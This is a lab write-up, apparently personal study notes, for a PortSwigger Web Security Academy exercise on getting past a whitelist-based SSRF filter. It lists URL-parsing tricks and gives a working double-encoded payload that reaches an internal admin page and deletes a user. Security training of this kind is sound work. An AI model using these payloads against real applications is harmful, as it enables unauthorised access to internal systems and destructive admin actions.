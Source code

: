 # [Lab: SSRF with whitelist-based input filter](https://portswigger.net/web-security/ssrf/lab-ssrf-with-whitelist-filter)

## Lab

This lab has a stock check feature which fetches data from an internal system

To solve the lab, change the stock check URL to access the admin interface at `http://localhost/admin` and delete the user `carlos`.

The developer has deployed an anti-SSRF defense you will need to bypass.

## Analysis

Some applications only allow input that matches, begins with, or contains, a whitelist of permitted values. In this situation, you can sometimes circumvent the filter by exploiting inconsistencies in URL parsing.

The URL specification contains a number of features that are liable to be overlooked when implementing ad hoc parsing and validation of URLs:

- You can embed credentials in a URL before the hostname, using the @ character. For example: `https://expected-host@evil-host`
- You can use the `#` character to indicate a URL fragment. For example: `https://evil-host#expected-host`
- You can leverage the DNS naming hierarchy to place required input into a fully-qualified DNS name that you control. For example: `https://expected-host.evil-host`
- You can URL-encode characters to confuse the URL-parsing code. This is particularly useful if the code that implements the filter handles URL-encoded characters differently than the code that performs the back-end HTTP request.

You can use combinations of these techniques together.

Context: same as [lab 1](./1.%20Basic%20SSRF%20against%20the%20local%20server.md) and [lab 2](./2.%20Basic%20SSRF%20against%20another%20back-end%20system.md)

## Solution

Tried:

- `stockApi=http://stock.weliketoshop.net@localhost/admin` -> Failed
- `stockApi=http://localhost/admin#stock.weliketoshop.net` -> Failed

Double encoding -> success:

```http
http://localhost:80%2523@stock.weliketoshop.net/admin/delete?username=carlos
```

it's work because:

- filter decodes 1 time:

  ```http
  http://localhost:80%23@stock.weliketoshop.net/admin/delete?username=carlos
  ```

  - so the domain here is still `stock.weliketoshop.net`
- backend decodes 2 times:

  ```http
  http://localhost:80#@stock.weliketoshop.net/admin/delete?username=carlos
  ```

  - now the domain is localhost. => bypassed

